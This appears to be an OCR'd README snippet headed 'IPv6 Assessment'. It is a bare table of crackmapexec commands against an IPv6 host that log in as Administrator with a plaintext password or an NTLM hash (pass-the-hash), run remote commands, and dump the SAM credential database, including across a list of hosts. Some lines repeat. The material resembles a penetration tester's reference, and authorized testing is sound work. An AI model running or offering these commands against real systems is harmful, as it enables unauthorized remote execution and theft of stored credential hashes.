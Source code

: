 ### IPv6 Assessment
| for Example  |
| ------------- |
|crackmapexec 2001:db7::1234:1 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec 2001:db7::1234:1 -u Administrator -H "aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86" --sam |
|crackmapexec 2001:db7::1234:1 -u Administrator -H "aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86" -x "hostname"|
|crackmapexec 2001:db7::1234:1 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec 2001:db7::1234:1 -u Administrator -p 'Passw0rd' -x "ipconfig" |
